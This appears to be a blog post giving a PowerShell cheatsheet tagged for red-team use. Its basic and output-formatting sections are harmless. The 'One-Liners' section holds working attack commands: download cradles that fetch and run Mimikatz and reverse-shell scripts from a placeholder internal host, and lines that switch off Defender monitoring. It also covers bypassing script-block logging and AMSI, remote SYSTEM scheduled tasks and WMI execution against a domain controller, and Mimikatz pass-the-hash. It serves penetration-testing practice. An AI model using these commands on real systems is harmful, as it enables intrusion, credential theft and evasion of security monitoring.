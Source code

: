 ```yaml
---
author:
  name: "Piyush Verma"
date: 2021-10-29
linktitle: PowerShell Cheatsheet
type:
- post
- posts
title: PowerShell Cheatsheet
draft: false
toc: true
images:
tags:
  - PowerShell
  - cheatsheet
  - oneliner
  - redteam
weight: 10
---
```

{{<image src="https://media.giphy.com/media/8Iv5lqKwKsZ2g/giphy.gif" alt="alt text" width="400" height="180" position="center">}} 

This cheatsheet will continue to receive updates. 

## PowerShell (PS) 101 commands
---

Please note that all of the following commands are run from a PowerShell prompt.

Retrieve the PowerShell version
```powershell
 $PSVersionTable 
 ```

List help about a cmdlet in a readable format
```powershell 
Get-Help <cmdlet> | more
```

List cmdlets which contain the keyword 'service' in them
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Name -match "service"}
```
List available commands in the current PS session and their respective details which contain the keyword 'command' in them:
```powershell
Get-Command -CommandType All -ShowCommandInfo | ?{$_.Name -match "command"}
```

Wildcards can be used to match as well. 
```powershell
Get-Command -CommandType All | ?{$_.Name -match "serv*"}
```

Count the number of commands in the output 
```powershell
(Get-Command -CommandType All | ?{$_.Name -match "command"}).count
```

List all cmdlets with PKI as source
```powershell
Get-Command -CommandType Cmdlet | ?{$_.Source -match "PKI"}
```

List available commands in a module by running
```powershell
Get-Command -Module <module name>
```

## Handy Tweaks
---

When you launch PowerShell session, it opens in the user's home directory by default. This behavior can be modified so that new PS sessions open in a custom directory. Here is how:

```powershell
# Check the value of $PROFILE variable.

PS C:\Windows\system32> $PROFILE
C:\Users\XXXXXXXXX\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1

# Create the .ps1 file returned from the $PROFILE variable

PS C:\Windows\system32> New-Item -Path $PROFILE -Type File -Force

# To set and change the default working directory, open the above 'Microsoft.PowerShell_profile.ps1' in ISE and add the following line with your desired path.

Set-location <Custom directory path>
```


## One-Liners
---

### Creating a firewall rule exception in Windows
```powershell
New-NetFirewallRule -DisplayName 'HTTP-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('80', '443')

New-NetFirewallRule -DisplayName '447-Inbound' -Profile @('Domain', 'Private') -Direction Inbound -Action Allow -Protocol TCP -LocalPort @('447')
```

### Download cradles
```powershell
# Option 1 - Using IEX (compatible with older versions of PS)

powershell iex (New-Object Net.WebClient).DownloadString("http://192.168.X.X/Invoke-MimikatzEX.ps1")

# Option 2 - Using IWR (works on current version of PS)

iwr -UseBasicparsing http://192.168.X.X/Invoke-PowerShellRev.ps1 | iex
```

### Creating a Credential object
```powershell
$SecPassword = ConvertTo-SecureString 'XXXXXXXXXXXX' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('domain\user', $SecPassword)

```

### Decode Base64
```powershell
$EncodedText = “VABoA....”

$DecodedText = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($EncodedText))

$DecodedText
```

### Disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -DisableIOAVProtection $true
```
### Encode reverse shell
```powershell
. .\Invoke-Encode.ps1

Invoke-Encode -DataToEncode .\Invoke-PowerShellTcpOneLine.ps1 -OutCommand

# Open a listener (nc) on one end and on another shell use: 

powershell -e <content of encodedcommand.txt>
```

### Reverse shell using a Batch file
```powershell
# Create reverse.bat file

$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://192.168.X.X/Invoke-PowerShellRev8080.ps1''))'
Out-File -Encoding Ascii -InputObject $Contents -FilePath C:\...\Tools\reverse8080.bat

# Call reverse.bat file

## Option 1
.rotten.exe * reverse.bat

## Option 2
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:<NTLMHASH> /run:C:\users\.....\desktop\reverse.bat"'
```

### Scheduled tasks
```powershell
schtasks /create /S dc.contoso.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "UserX" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.X.X/Invoke-PowerShellRev8080.ps1''')'"

schtasks /Run /S dc.contoso.local /TN "UserX"
```

### Invoke-WMIMethod - Command Execution (Reverse shell, etc.)
```powershell
Invoke-WmiMethod win32_process -ComputerName dc.contoso.local -name create -argumentlist "powershell.exe -e $encodedCommand"
```

### Chain powershell commands to Bypass SBLogging, then AMSIBypass and then get reverse shell
```powershell
powershell -c "iex (iwr -UseBasicParsing http://192.168.X.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.X.X/Invoke-PowerShellTcpEx.ps1)
```

### Check local admin access via Invoke-Command
```powershell
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName (Get-Content ..\Output\computers.txt) 2>$null
```

### Over pass-the-hash
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:srv.contoso.local /ntlm:<NTLMHASH> /run:powershell.exe"'
```

## Playing with command output
---

### 1. Expand redacted output

You might notice that sometimes the output returned by PS commands is redacted with "...". This can be corrected by modifying the value of the PS variable - ```$FormatEnumerationLimit``` as follows.

``` powershell
$FormatEnumerationLimit = -1
```

### 2. Using 'more' command

Piping output of a command to ``` more ``` command makes it readable from the first line. This is equivalent to ``` less``` command in Linux/Unix.

``` powershell
Get-Process | more
```

### 3. Using -ExpandProperty

``` powershell
Get-CimClass -Namespace root/SecurityCenter2 -MethodName * | select -ExpandProperty CimClassMethods
```

### 4. Exporting output in a CSV format

Sometimes (more than we'd think) having the output in a CSV file is a blessing. Here is how it can be done using ```Export-CSV``` cmdlet.

``` powershell
Get-Date | Select-Object -Property DateTime, Day, DayOfWeek, DayOfYear | Export-Csv -Path .\DateTime.csv -NoTypeInformation
```